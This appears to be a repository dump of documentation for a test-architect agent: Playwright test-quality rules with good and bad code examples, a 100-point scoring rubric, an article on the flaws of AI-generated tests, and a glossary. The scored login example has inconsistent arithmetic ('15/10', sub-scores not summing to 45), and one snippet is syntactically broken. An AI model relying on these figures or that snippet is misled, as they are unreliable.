- ❌ No conditionals for flow control (`if/else`)
- ❌ No try-catch for flow control
- ✅ Use network-first patterns (wait for responses)
- ✅ Use explicit waits (waitForSelector, waitForResponse)

**Bad Example:**

```typescript
test('flaky test', async ({ page }) => {
  await page.click('button');
  await page.waitForTimeout(2000); // ❌ Might be too short

  if (await page.locator('.modal').isVisible()) {
    // ❌ Non-deterministic
    await page.click('.dismiss');
  }

  try {
    // ❌ Silently handles errors
    await expect(page.locator('.success')).toBeVisible();
  } catch (e) {
    // Test passes even if assertion fails!
  }
});
```

**Good Example (Vanilla Playwright):**

```typescript
test('deterministic test', async ({ page }) => {
  const responsePromise = page.waitForResponse((resp) => resp.url().includes('/api/submit') && resp.ok());

  await page.click('button');
  await responsePromise; // ✅ Wait for actual response

  // Modal should ALWAYS show (make it deterministic)
  await expect(page.locator('.modal')).toBeVisible();
  await page.click('.dismiss');

  // Explicit assertion (fails if not visible)
  await expect(page.locator('.success')).toBeVisible();
});
```

**With Playwright Utils (Even Cleaner):**

```typescript
import { test } from '@seontechnologies/playwright-utils/fixtures';
import { expect } from '@playwright/test';

test('deterministic test', async ({ page, interceptNetworkCall }) => {
  const submitCall = interceptNetworkCall({
    method: 'POST',
    url: '**/api/submit',
  });

  await page.click('button');

  // Wait for actual response (automatic JSON parsing)
  const { status, responseJson } = await submitCall;
  expect(status).toBe(200);

  // Modal should ALWAYS show (make it deterministic)
  await expect(page.locator('.modal')).toBeVisible();
  await page.click('.dismiss');

  // Explicit assertion (fails if not visible)
  await expect(page.locator('.success')).toBeVisible();
});
```

**Why both work:**

- Waits for actual event (network response)
- No conditionals (behavior is deterministic)
- Assertions fail loudly (no silent failures)
- Same result every run (deterministic)

**Playwright Utils additional benefits:**

- Automatic JSON parsing
- `{ status, responseJson }` structure (can validate response data)
- No manual `await response.json()`

### 2. Isolation (No Dependencies)

**Rule:** Test runs independently, no shared state.

**Requirements:**

- ✅ Self-cleaning (cleanup after test)
- ✅ No global state dependencies
- ✅ Can run in parallel
- ✅ Can run in any order
- ✅ Use unique test data

**Bad Example:**

```typescript
// ❌ Tests depend on execution order
let userId: string; // Shared global state

test('create user', async ({ apiRequest }) => {
  const { body } = await apiRequest({
    method: 'POST',
    path: '/api/users',
    body: { email: 'test@example.com' }(hard - coded),
  });
  userId = body.id; // Store in global
});

test('update user', async ({ apiRequest }) => {
  // Depends on previous test setting userId
  await apiRequest({
    method: 'PATCH',
    path: `/api/users/${userId}`,
    body: { name: 'Updated' },
  });
  // No cleanup - leaves user in database
});
```

**Problems:**

- Tests must run in order (can't parallelize)
- Second test fails if first skipped (`.only`)
- Hard-coded data causes conflicts
- No cleanup (database fills with test data)

**Good Example (Vanilla Playwright):**

```typescript
test('should update user profile', async ({ request }) => {
  // Create unique test data
  const testEmail = `test-${Date.now()}@example.com`;

  // Setup: Create user
  const createResp = await request.post('/api/users', {
    data: { email: testEmail, name: 'Original' },
  });
  const user = await createResp.json();

  // Test: Update user
  const updateResp = await request.patch(`/api/users/${user.id}`, {
    data: { name: 'Updated' },
  });
  const updated = await updateResp.json();

  expect(updated.name).toBe('Updated');

  // Cleanup: Delete user
  await request.delete(`/api/users/${user.id}`);
});
```

**Even Better (With Playwright Utils):**

```typescript
import { test } from '@seontechnologies/playwright-utils/api-request/fixtures';
import { expect } from '@playwright/test';
import { faker } from '@faker-js/faker';

test('should update user profile', async ({ apiRequest }) => {
  // Dynamic unique test data
  const testEmail = faker.internet.email();

  // Setup: Create user
  const { status: createStatus, body: user } = await apiRequest({
    method: 'POST',
    path: '/api/users',
    body: { email: testEmail, name: faker.person.fullName() },
  });

  expect(createStatus).toBe(201);

  // Test: Update user
  const { status, body: updated } = await apiRequest({
    method: 'PATCH',
    path: `/api/users/${user.id}`,
    body: { name: 'Updated Name' },
  });

  expect(status).toBe(200);
  expect(updated.name).toBe('Updated Name');

  // Cleanup: Delete user
  await apiRequest({
    method: 'DELETE',
    path: `/api/users/${user.id}`,
  });
});
```

**Playwright Utils Benefits:**

- `{ status, body }` destructuring (cleaner than `response.status()` + `await response.json()`)
- No manual `await response.json()`
- Automatic retry for 5xx errors
- Optional schema validation with `.validateSchema()`

**Why it works:**

- No global state
- Unique test data (no conflicts)
- Self-cleaning (deletes user)
- Can run in parallel
- Can run in any order

### 3. Explicit Assertions (No Hidden Validation)

**Rule:** Assertions visible in test body, not abstracted.

**Requirements:**

- ✅ Assertions in test code (not helper functions)
- ✅ Specific assertions (not generic `toBeTruthy`)
- ✅ Meaningful expectations (test actual behavior)

**Bad Example:**

```typescript
// ❌ Assertions hidden in helper
async function verifyProfilePage(page: Page) {
  // Assertions buried in helper (not visible in test)
  await expect(page.locator('h1')).toBeVisible();
  await expect(page.locator('.email')).toContainText('@');
  await expect(page.locator('.name')).not.toBeEmpty();
}

test('profile page', async ({ page }) => {
  await page.goto('/profile');
  await verifyProfilePage(page); // What's being verified?
});
```

**Problems:**

- Can't see what's tested (need to read helper)
- Hard to debug failures (which assertion failed?)
- Reduces test readability
- Hides important validation

**Good Example:**

```typescript
// ✅ Assertions explicit in test
test('should display profile with correct data', async ({ page }) => {
  await page.goto('/profile');

  // Explicit assertions - clear what's tested
  await expect(page.locator('h1')).toContainText('Test User');
  await expect(page.locator('.email')).toContainText('test@example.com');
  await expect(page.locator('.bio')).toContainText('Software Engineer');
  await expect(page.locator('img[alt="Avatar"]')).toBeVisible();
});
```

**Why it works:**

- See what's tested at a glance
- Debug failures easily (know which assertion failed)
- Test is self-documenting
- No hidden behavior

**Exception:** Use helper for setup/cleanup, not assertions.

### 4. Focused Tests (Appropriate Size)

**Rule:** Test has single responsibility, reasonable size.

**Requirements:**

- ✅ Test size < 300 lines
- ✅ Single responsibility (test one thing well)
- ✅ Clear describe/test names
- ✅ Appropriate scope (not too granular, not too broad)

**Bad Example:**

```typescript
// ❌ 500-line test testing everything
test('complete user flow', async ({ page }) => {
  // Registration (50 lines)
  await page.goto('/register');
  await page.fill('#email', 'test@example.com');
  // ... 48 more lines

  // Profile setup (100 lines)
  await page.goto('/profile');
  // ... 98 more lines

  // Settings configuration (150 lines)
  await page.goto('/settings');
  // ... 148 more lines

  // Data export (200 lines)
  await page.goto('/export');
  // ... 198 more lines

  // Total: 500 lines, testing 4 different features
});
```

**Problems:**

- Failure in line 50 prevents testing lines 51-500
- Hard to understand (what's being tested?)
- Slow to execute (testing too much)
- Hard to debug (which feature failed?)

**Good Example:**

```typescript
// ✅ Focused tests - one responsibility each

test('should register new user', async ({ page }) => {
  await page.goto('/register');
  await page.fill('#email', 'test@example.com');
  await page.fill('#password', 'password123');
  await page.click('button[type="submit"]');

  await expect(page).toHaveURL('/welcome');
  await expect(page.locator('h1')).toContainText('Welcome');
});

test('should configure user profile', async ({ page, authSession }) => {
  await authSession.login({ email: 'test@example.com', password: 'pass' });
  await page.goto('/profile');

  await page.fill('#name', 'Test User');
  await page.fill('#bio', 'Software Engineer');
  await page.click('button:has-text("Save")');

  await expect(page.locator('.success')).toBeVisible();
});

// ... separate tests for settings, export (each < 50 lines)
```

**Why it works:**

- Each test has one responsibility
- Failure is easy to diagnose
- Can run tests independently
- Test names describe exactly what's tested

### 5. Fast Execution (Performance Budget)

**Rule:** Individual test executes in < 1.5 minutes.

**Requirements:**

- ✅ Test execution < 90 seconds
- ✅ Efficient selectors (getByRole > XPath)
- ✅ Minimal redundant actions
- ✅ Parallel execution enabled

**Bad Example:**

```typescript
// ❌ Slow test (3+ minutes)
test('slow test', async ({ page }) => {
  await page.goto('/');
  await page.waitForTimeout(10000); // 10s wasted

  // Navigate through 10 pages (2 minutes)
  for (let i = 1; i <= 10; i++) {
    await page.click(`a[href="/page-${i}"]`);
    await page.waitForTimeout(5000); // 5s per page = 50s wasted
  }

  // Complex XPath selector (slow)
  await page.locator('//div[@class="container"]/section[3]/div[2]/p').click();

  // More waiting
  await page.waitForTimeout(30000); // 30s wasted

  await expect(page.locator('.result')).toBeVisible();
});
```

**Total time:** 3+ minutes (95 seconds wasted on hard waits)

**Good Example (Vanilla Playwright):**

```typescript
// ✅ Fast test (< 10 seconds)
test('fast test', async ({ page }) => {
  // Set up response wait
  const apiPromise = page.waitForResponse((resp) => resp.url().includes('/api/result') && resp.ok());

  await page.goto('/');

  // Direct navigation (skip intermediate pages)
  await page.goto('/page-10');

  // Efficient selector
  await page.getByRole('button', { name: 'Submit' }).click();

  // Wait for actual response (fast when API is fast)
  await apiPromise;

  await expect(page.locator('.result')).toBeVisible();
});
```

**With Playwright Utils:**

```typescript
import { test } from '@seontechnologies/playwright-utils/fixtures';
import { expect } from '@playwright/test';

test('fast test', async ({ page, interceptNetworkCall }) => {
  // Set up interception
  const resultCall = interceptNetworkCall({
    method: 'GET',
    url: '**/api/result',
  });

  await page.goto('/');

  // Direct navigation (skip intermediate pages)
  await page.goto('/page-10');

  // Efficient selector
  await page.getByRole('button', { name: 'Submit' }).click();

  // Wait for actual response (automatic JSON parsing)
  const { status, responseJson } = await resultCall;

  expect(status).toBe(200);
  await expect(page.locator('.result')).toBeVisible();

  // Can also validate response data if needed
  // expect(responseJson.data).toBeDefined();
});
```

**Total time:** < 10 seconds (no wasted waits)

**Both examples achieve:**

- No hard waits (wait for actual events)
- Direct navigation (skip unnecessary steps)
- Efficient selectors (getByRole)
- Fast execution

**Playwright Utils bonus:**

- Can validate API response data easily
- Automatic JSON parsing
- Cleaner API

## TEA's Quality Scoring

TEA reviews tests against these standards in `test-review`:

### Scoring Categories (100 points total)

**Determinism (35 points):**

- No hard waits: 10 points
- No conditionals: 10 points
- No try-catch flow: 10 points
- Network-first patterns: 5 points

**Isolation (25 points):**

- Self-cleaning: 15 points
- No global state: 5 points
- Parallel-safe: 5 points

**Assertions (20 points):**

- Explicit in test body: 10 points
- Specific and meaningful: 10 points

**Structure (10 points):**

- Test size < 300 lines: 5 points
- Clear naming: 5 points

**Performance (10 points):**

- Execution time < 1.5 min: 10 points

#### Quality Scoring Breakdown





### Score Interpretation

| Score      | Interpretation | Action                                 |
| ---------- | -------------- | -------------------------------------- |
| **90-100** | Excellent      | Production-ready, minimal changes      |
| **80-89**  | Good           | Minor improvements recommended         |
| **70-79**  | Acceptable     | Address recommendations before release |
| **60-69**  | Needs Work     | Fix critical issues                    |
| **< 60**   | Critical       | Significant refactoring needed         |

## Comparison: Good vs Bad Tests

### Example: User Login

**Bad Test (Score: 45/100):**

```typescript
test('login test', async ({ page }) => {
  // Vague name
  await page.goto('/login');
  await page.waitForTimeout(3000); // -10 (hard wait)

  await page.fill('[name="email"]', 'test@example.com');
  await page.fill('[name="password"]', 'password');

  if (await page.locator('.remember-me').isVisible()) {
    // -10 (conditional)
    await page.click('.remember-me');
  }

  await page.click('button');

  try {
    // -10 (try-catch flow)
    await page.waitForURL('/dashboard', { timeout: 5000 });
  } catch (e) {
    // Ignore navigation failure
  }

  // No assertions! -10
  // No cleanup! -10
});
```

**Issues:**

- Determinism: 5/35 (hard wait, conditional, try-catch)
- Isolation: 10/25 (no cleanup)
- Assertions: 0/20 (no assertions!)
- Structure: 15/10 (okay)
- Performance: 5/10 (slow)
- **Total: 45/100**

**Good Test (Score: 95/100):**

```typescript
test('should login with valid credentials and redirect to dashboard', async ({ page, authSession }) => {
  // Use fixture for deterministic auth
  const loginPromise = page.waitForResponse((resp) => resp.url().includes('/api/auth/login') && resp.ok());

  await page.goto('/login');
  await page.getByLabel('Email').fill('test@example.com');
  await page.getByLabel('Password').fill('password123');
  await page.getByRole('button', { name: 'Sign in' }).click();

  // Wait for actual API response
  const response = await loginPromise;
  const { token } = await response.json();

  // Explicit assertions
  expect(token).toBeDefined();
  await expect(page).toHaveURL('/dashboard');
  await expect(page.getByText('Welcome back')).toBeVisible();

  // Cleanup handled by authSession fixture
});
```

**Quality:**

- Determinism: 35/35 (network-first, no conditionals)
- Isolation: 25/25 (fixture handles cleanup)
- Assertions: 20/20 (explicit and specific)
- Structure: 10/10 (clear name, focused)
- Performance: 5/10 (< 1 min)
- **Total: 95/100**

### Example: API Testing

**Bad Test (Score: 50/100):**

```typescript
test('api test', async ({ request }) => {
  const response = await request.post('/api/users', {
    data: { email: 'test@example.com' }, // Hard-coded (conflicts)
  });

  if (response.ok()) {
    // Conditional
    const user = await response.json();
    // Weak assertion
    expect(user).toBeTruthy();
  }

  // No cleanup - user left in database
});
```

**Good Test (Score: 92/100):**

```typescript
test('should create user with valid data', async ({ apiRequest }) => {
  // Unique test data
  const testEmail = `test-${Date.now()}@example.com`;

  // Create user
  const { status, body } = await apiRequest({
    method: 'POST',
    path: '/api/users',
    body: { email: testEmail, name: 'Test User' },
  });

  // Explicit assertions
  expect(status).toBe(201);
  expect(body.id).toBeDefined();
  expect(body.email).toBe(testEmail);
  expect(body.name).toBe('Test User');

  // Cleanup
  await apiRequest({
    method: 'DELETE',
    path: `/api/users/${body.id}`,
  });
});
```

## How TEA Enforces Standards

### During Test Generation (`atdd`, `automate`)

TEA generates tests following standards by default:

```typescript
// TEA-generated test (automatically follows standards)
test('should submit contact form', async ({ page }) => {
  // Network-first pattern (no hard waits)
  const submitPromise = page.waitForResponse((resp) => resp.url().includes('/api/contact') && resp.ok());

  // Accessible selectors (resilient)
  await page.getByLabel('Name').fill('Test User');
  await page.getByLabel('Email').fill('test@example.com');
  await page.getByLabel('Message').fill('Test message');
  await page.getByRole('button', { name: 'Send' }).click();

  const response = await submitPromise;
  const result = await response.json();

  // Explicit assertions
  expect(result.success).toBe(true);
  await expect(page.getByText('Message sent')).toBeVisible();

  // Size: 15 lines (< 300 ✓)
  // Execution: ~2 seconds (< 90s ✓)
});
```

### During Test Review (`test-review`)

TEA audits tests and flags violations:

```markdown
## Critical Issues

### Hard Wait Detected (tests/login.spec.ts:23)

**Issue:** `await page.waitForTimeout(3000)`
**Score Impact:** -10 (Determinism)
**Fix:** Use network-first pattern

### Conditional Flow Control (tests/profile.spec.ts:45)

**Issue:** `if (await page.locator('.banner').isVisible())`
**Score Impact:** -10 (Determinism)
**Fix:** Make banner presence deterministic

## Recommendations

### Extract Fixture (tests/auth.spec.ts)

**Issue:** Login code repeated 5 times
**Score Impact:** -3 (Structure)
**Fix:** Extract to authSession fixture
```

## Definition of Done Checklist

When is a test "done"?

**Test Quality DoD:**

- [ ] No hard waits (`waitForTimeout`)
- [ ] No conditionals for flow control
- [ ] No try-catch for flow control
- [ ] Network-first patterns used
- [ ] Assertions explicit in test body
- [ ] Test size < 300 lines
- [ ] Clear, descriptive test name
- [ ] Self-cleaning (cleanup in afterEach or test)
- [ ] Unique test data (no hard-coded values)
- [ ] Execution time < 1.5 minutes
- [ ] Can run in parallel
- [ ] Can run in any order

**Code Review DoD:**

- [ ] Test quality score > 80
- [ ] No critical issues from `test-review`
- [ ] Follows project patterns (fixtures, selectors)
- [ ] Test reviewed by team member

## Common Quality Issues

### Issue: "My test needs conditionals for optional elements"

**Wrong approach:**

```typescript
if (await page.locator('.banner').isVisible()) {
  await page.click('.dismiss');
}
```

**Right approach - Make it deterministic:**

```typescript
// Option 1: Always expect banner
await expect(page.locator('.banner')).toBeVisible();
await page.click('.dismiss');

// Option 2: Test both scenarios separately
test('should show banner for new users', ...);
test('should not show banner for returning users', ...);
```

### Issue: "My test needs try-catch for error handling"

**Wrong approach:**

```typescript
try {
  await page.click('#optional-button');
} catch (e) {
  // Silently continue
}
```

**Right approach - Make failures explicit:**

```typescript
// Option 1: Button should exist
await page.click('#optional-button'); // Fails loudly if missing

// Option 2: Button might not exist (test both)
test('should work with optional button', async ({ page }) => {
  const hasButton = (await page.locator('#optional-button').count()) > 0;
  if (hasButton) {
    await page.click('#optional-button');
  }
  // But now you're testing optional behavior explicitly
});
```

### Issue: "Hard waits are easier than network patterns"

**Short-term:** Hard waits seem simpler
**Long-term:** Flaky tests waste more time than learning network patterns

**Investment:**

- 30 minutes to learn network-first patterns
- Prevents hundreds of hours debugging flaky tests
- Tests run faster (no wasted waits)
- Team trusts test suite

## Technical Implementation

For detailed test quality patterns, see:

- [Test Quality Fragment](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md#quality-standards)
- [Test Levels Framework Fragment](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md#quality-standards)
- [Complete Knowledge Base Index](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md)

## Related Concepts

**Core TEA Concepts:**

- [Risk-Based Testing](/brain/knowledge/docs_legacy/explanation/risk-based-testing.md) - Quality scales with risk
- [Knowledge Base System](/brain/knowledge/docs_legacy/explanation/knowledge-base-system.md) - How standards are enforced
- [Engagement Models](/brain/knowledge/docs_legacy/explanation/engagement-models.md) - Quality in different models

**Technical Patterns:**

- [Network-First Patterns](/brain/knowledge/docs_legacy/explanation/network-first-patterns.md) - Determinism explained
- [Fixture Architecture](/brain/knowledge/docs_legacy/explanation/fixture-architecture.md) - Isolation through fixtures

**Overview:**

- [TEA Overview](/brain/knowledge/docs_legacy/explanation/tea-overview.md) - Quality standards in lifecycle
- [Testing as Engineering](/brain/knowledge/docs_legacy/explanation/testing-as-engineering.md) - Why quality matters

## Practical Guides

**Workflow Guides:**

- [How to Run Test Review](/brain/knowledge/docs_legacy/how-to/workflows/run-test-review.md) - Audit against these standards
- [How to Run ATDD](/brain/knowledge/docs_legacy/how-to/workflows/run-atdd.md) - Generate quality tests
- [How to Run Automate](/brain/knowledge/docs_legacy/how-to/workflows/run-automate.md) - Expand with quality

**Use-Case Guides:**

- [Using TEA with Existing Tests](/brain/knowledge/docs_legacy/how-to/brownfield/use-tea-with-existing-tests.md) - Improve legacy quality
- [Running TEA for Enterprise](/brain/knowledge/docs_legacy/how-to/brownfield/use-tea-for-enterprise.md) - Enterprise quality thresholds

## Reference

- [TEA Command Reference](../bmad_repo/commands.md) - `test-review` command
- [Knowledge Base Index](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md) - Test quality fragment
- [Glossary](../INDEX.md#test-architect-tea-concepts) - TEA terminology

---

Generated with [BMad Method](https://bmad-method.org) - TEA (Test Engineering Architect)
```

## File: `brain/knowledge/docs_legacy/explanation/testing-as-engineering.md`
```markdown
---
title: 'AI-Generated Testing: Why Most Approaches Fail'
description: How Playwright-Utils, pactjs-utils, TEA workflows, Playwright CLI, and MCPs solve AI test quality problems
---

AI-generated tests frequently fail in production because they lack systematic quality standards. This document explains the problem and presents a solution combining utility standards, TEA workflows, and automation interfaces across both UI, API and contract testing.

:::note[Source]
This article is adapted from [The Testing Meta Most Teams Have Not Caught Up To Yet](https://dev.to/muratkeremozcan/the-testing-meta-most-teams-have-not-caught-up-to-yet-5765) by Murat K Ozcan.
:::

## The Problem with AI-Generated Tests

When teams use AI to generate tests without structure, they often produce what can be called "slop factory" outputs:

| Issue                | Description                                          |
| -------------------- | ---------------------------------------------------- |
| Redundant coverage   | Multiple tests covering the same functionality       |
| Incorrect assertions | Tests that pass but don't actually verify behavior   |
| Flaky tests          | Non-deterministic tests that randomly pass or fail   |
| Unreviewable diffs   | Generated code too verbose or inconsistent to review |

The core problem is that prompt-driven testing paths lean into nondeterminism, which is the exact opposite of what testing exists to protect.

:::caution[The Paradox]
AI excels at generating code quickly, but testing requires precision and consistency. Without guardrails, AI-generated tests amplify the chaos they're meant to prevent.
:::

## The Solution: A Three-Part Stack

The solution combines three components that work together to enforce quality:

### 1. Utilities: Playwright-Utils + Pact.js Utils

`@seontechnologies/playwright-utils` standardizes commonly reinvented testing primitives across UI, API, web, and non-web flows. `@seontechnologies/pactjs-utils` standardizes Pact.js contract-testing primitives for provider state setup, request filtering, and provider/message verifier configuration.

| Track              | Utility Layer                        | Purpose                                                  |
| ------------------ | ------------------------------------ | -------------------------------------------------------- |
| UI/API/Web/Non-web | `@seontechnologies/playwright-utils` | Reusable testing primitives and fixtures                 |
| Contract           | `@seontechnologies/pactjs-utils`     | Reusable Pact consumer/provider helpers and verification |

**Playwright-Utils examples:** `api-request`, `auth-session`, `intercept-network-call`, `recurse`, `log`, `network-recorder`, `burn-in`, `network-error-monitor`, `file-utils`.

**pactjs-utils examples:** `createProviderState`, `toJsonMap`, `setJsonBody`, `setJsonContent`, `createRequestFilter`, `noOpRequestFilter`, `buildVerifierOptions`, `buildMessageVerifierOptions`.

Together, these utility libraries eliminate the need to reinvent core testing primitives across UI, API, web, non-web, and contract testing.

### 2. Process: TEA (Test Architect Agent)

A quality operating model packaged as eight executable workflows spanning test design, CI/CD gates, and release readiness. TEA encodes test architecture expertise into repeatable processes.

| Workflow      | Purpose                                       |
| ------------- | --------------------------------------------- |
| `test-design` | Risk-based test planning per epic             |
| `framework`   | Scaffold production-ready test infrastructure |
| `ci`          | CI pipeline with selective testing            |
| `atdd`        | Acceptance test-driven development            |
| `automate`    | Prioritized test automation                   |
| `test-review` | Test quality audits (0-100 score)             |
| `nfr-assess`  | Non-functional requirements assessment        |
| `trace`       | Coverage traceability and gate decisions      |

:::tip[Key Insight]
TEA doesn't just generate tests—it provides a complete quality operating model with workflows for planning, execution, and release gates.
:::

### 3. Automation Interfaces: Playwright CLI + MCPs

Automation interfaces enable real-time verification during test generation and review across browser and contract tracks:

- **Playwright CLI**: token-efficient browser automation for stateless execution and fast checks in workflows.
- **Playwright MCP**: stateful browser automation with richer context for interactive exploration and DOM validation.
- **Pact MCP**: broker-aware contract automation for verification matrix queries, provider-state discovery, compatibility analysis, and `can-i-deploy` deployment decisions.

Instead of inferring behavior from documentation alone, these interfaces allow agents to:

- Run browser flows and confirm the DOM against the accessibility tree
- Validate UI/API network behavior in real-time
- Query Pact verification matrix results across consumer/provider versions
- Check provider states and contract compatibility before release
- Execute `can-i-deploy` checks against target environments

## How They Work Together

The three components form a quality pipeline:

| Stage        | Component                                  | Action                                                       |
| ------------ | ------------------------------------------ | ------------------------------------------------------------ |
| Standards    | Playwright-Utils + pactjs-utils            | Provides production-ready patterns for UI and contract tests |
| Process      | TEA Workflows                              | Enforces systematic test planning and review                 |
| Verification | Playwright CLI + Playwright MCP + Pact MCP | Validates tests and contracts against live systems           |

**Before (AI-only):** 20 tests with redundant coverage, incorrect assertions, and flaky behavior.

**After (Full Stack):** Risk-based selection, verified selectors, validated behavior, contract compatibility checks, reviewable code.

## Why This Matters

Traditional AI testing approaches fail because they:

- **Lack quality standards** — No consistent patterns or utilities
- **Skip planning** — Jump straight to test generation without risk assessment
- **Can't verify** — Generate tests without validating against actual behavior
- **Don't review** — No systematic audit of generated test quality

The three-part stack addresses each gap:

| Gap             | Solution                                                                 |
| --------------- | ------------------------------------------------------------------------ |
| No standards    | Playwright-Utils + pactjs-utils provide production-ready patterns        |
| No planning     | TEA `test-design` creates risk-based test plans                          |
| No verification | Playwright CLI + Playwright MCP + Pact MCP validate against live systems |
| No review       | TEA `test-review` audits quality with scoring                            |

This approach is sometimes called _context engineering_—loading domain-specific standards into AI context automatically rather than relying on prompts alone. TEA's `tea-index.csv` manifest loads relevant knowledge fragments so the AI doesn't relearn testing patterns each session.
```

## File: `brain/knowledge/docs_legacy/glossary/index.md`
```markdown
---
title: 'TEA Glossary'
description: Terminology reference for Test Architect (TEA)
---

Terminology reference for Test Architect (TEA).

## Core Concepts

| Term                      | Definition                                                                                                                                                                        |
| ------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Agent**                 | Specialized AI persona with specific expertise (PM, Architect, SM, DEV, TEA) that guides users through workflows and creates deliverables.                                        |
| **BMad**                  | Breakthrough Method of Agile AI-Driven Development — AI-driven agile framework with specialized agents, guided workflows, and scale-adaptive intelligence.                        |
| **BMad Method**           | Complete methodology for AI-assisted software development, encompassing planning, architecture, implementation, and quality assurance workflows that adapt to project complexity. |
| **BMM**                   | BMad Method Module — core orchestration system providing comprehensive lifecycle management through specialized agents and workflows.                                             |
| **Scale-Adaptive System** | Intelligent workflow orchestration that adjusts planning depth and documentation requirements based on project needs through three planning tracks.                               |
| **Workflow**              | Multi-step guided process that orchestrates AI agent activities to produce specific deliverables. Workflows are interactive and adapt to user context.                            |

## Scale and Complexity

| Term                        | Definition                                                                                                                                                                |
| --------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **BMad Method Track**       | Full product planning track using PRD + Architecture + UX. Best for products, platforms, and complex features. Typical range: 10-50+ stories.                             |
| **Enterprise Method Track** | Extended planning track adding Security Architecture, DevOps Strategy, and Test Strategy. Best for compliance needs and multi-tenant systems. Typical range: 30+ stories. |
| **Planning Track**          | Methodology path (Quick Flow, BMad Method, or Enterprise) chosen based on planning needs and complexity, not story count alone.                                           |
| **Quick Flow Track**        | Fast implementation track using tech-spec only. Best for bug fixes, small features, and clear-scope changes. Typical range: 1-15 stories.                                 |

## Planning Documents

| Term                      | Definition                                                                                                                                         |
| ------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Architecture Document** | _BMad Method/Enterprise._ System-wide design document defining structure, components, data models, integration patterns, security, and deployment. |
| **Epics**                 | High-level feature groupings containing multiple related stories. Typically 5-15 stories each representing cohesive functionality.                 |
| **Game Brief**            | _BMGD._ Document capturing game's core vision, pillars, target audience, and scope. Foundation for the GDD.                                        |
| **GDD**                   | _BMGD._ Game Design Document — comprehensive document detailing all aspects of game design: mechanics, systems, content, and more.                 |
| **PRD**                   | _BMad Method/Enterprise._ Product Requirements Document containing vision, goals, FRs, NFRs, and success criteria. Focuses on WHAT to build.       |
| **Product Brief**         | _Phase 1._ Optional strategic document capturing product vision, market context, and high-level requirements before detailed planning.             |
| **Tech-Spec**             | _Quick Flow only._ Comprehensive technical plan with problem statement, solution approach, file-level changes, and testing strategy.               |

## Workflow and Phases

| Term                        | Definition                                                                                                                                     |
| --------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------- |
| **Phase 0: Documentation**  | _Brownfield._ Conditional prerequisite phase creating codebase documentation before planning. Only required if existing docs are insufficient. |
| **Phase 1: Analysis**       | Discovery phase including brainstorming, research, and product brief creation. Optional for Quick Flow, recommended for BMad Method.           |
| **Phase 2: Planning**       | Required phase creating formal requirements. Routes to tech-spec (Quick Flow) or PRD (BMad Method/Enterprise).                                 |
| **Phase 3: Solutioning**    | _BMad Method/Enterprise._ Architecture design phase including creation, validation, and gate checks.                                           |
| **Phase 4: Implementation** | Required sprint-based development through story-by-story iteration using sprint-planning, create-story, dev-story, and code-review workflows.  |
| **Quick Spec Flow**         | Fast-track workflow for Quick Flow projects going straight from idea to tech-spec to implementation.                                           |
| **Workflow Init**           | Initialization workflow creating bmm-workflow-status.yaml, detecting project type, and determining planning track.                             |
| **Workflow Status**         | Universal entry point checking for existing status file, displaying progress, and recommending next action.                                    |

## Agents and Roles

| Term                 | Definition                                                                                                                                       |
| -------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| **Analyst**          | Agent that initializes workflows, conducts research, creates product briefs, and tracks progress. Often the entry point for new projects.        |
| **Architect**        | Agent designing system architecture, creating architecture documents, and validating designs. Primary agent for Phase 3.                         |
| **BMad Master**      | Meta-level orchestrator from BMad Core facilitating party mode and providing high-level guidance across all modules.                             |
| **DEV**              | Developer agent implementing stories, writing code, running tests, and performing code reviews. Primary implementer in Phase 4.                  |
| **Game Architect**   | _BMGD._ Agent designing game system architecture and validating game-specific technical designs.                                                 |
| **Game Designer**    | _BMGD._ Agent creating game design documents (GDD) and running game-specific workflows.                                                          |
| **Party Mode**       | Multi-agent collaboration feature where agents discuss challenges together. BMad Master orchestrates, selecting 2-3 relevant agents per message. |
| **PM**               | Product Manager agent creating PRDs and tech-specs. Primary agent for Phase 2 planning.                                                          |
| **SM**               | Scrum Master agent managing sprints, creating stories, and coordinating implementation. Primary orchestrator for Phase 4.                        |
| **TEA**              | Test Architect agent responsible for test strategy, quality gates, and NFR assessment. Integrates throughout all phases.                         |
| **Technical Writer** | Agent specialized in creating technical documentation, diagrams, and maintaining documentation standards.                                        |
| **UX Designer**      | Agent creating UX design documents, interaction patterns, and visual specifications for UI-heavy projects.                                       |

## Status and Tracking

| Term                         | Definition                                                                                                                   |
| ---------------------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| **bmm-workflow-status.yaml** | _Phases 1-3._ Tracking file showing current phase, completed workflows, and next recommended actions.                        |
| **DoD**                      | Definition of Done — criteria for marking a story complete: implementation done, tests passing, code reviewed, docs updated. |
| **Epic Status Progression**  | `backlog → in-progress → done` — lifecycle states for epics during implementation.                                           |
| **Gate Check**               | Validation workflow (implementation-readiness) ensuring PRD, Architecture, and Epics are aligned before Phase 4.             |
| **Retrospective**            | Workflow after each epic capturing learnings and improvements for continuous improvement.                                    |
| **sprint-status.yaml**       | _Phase 4._ Single source of truth for implementation tracking containing all epics, stories, and their statuses.             |
| **Story Status Progression** | `backlog → ready-for-dev → in-progress → review → done` — lifecycle states for stories.                                      |

## Project Types

| Term                     | Definition                                                                                                                      |
| ------------------------ | ------------------------------------------------------------------------------------------------------------------------------- |
| **Brownfield**           | Existing project with established codebase and patterns. Requires understanding existing architecture and planning integration. |
| **Convention Detection** | _Quick Flow._ Feature auto-detecting existing code style, naming conventions, and frameworks from brownfield codebases.         |
| **document-project**     | _Brownfield._ Workflow analyzing and documenting existing codebase with three scan levels: quick, deep, exhaustive.             |
| **Feature Flags**        | _Brownfield._ Implementation technique for gradual rollout, easy rollback, and A/B testing of new functionality.                |
| **Greenfield**           | New project starting from scratch with freedom to establish patterns, choose stack, and design from clean slate.                |
| **Integration Points**   | _Brownfield._ Specific locations where new code connects with existing systems. Must be documented in tech-specs.               |

## Implementation Terms

| Term                    | Definition                                                                                                                                 |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------------------------------ |
| **Context Engineering** | Loading domain-specific standards into AI context automatically via manifests, ensuring consistent outputs regardless of prompt variation. |
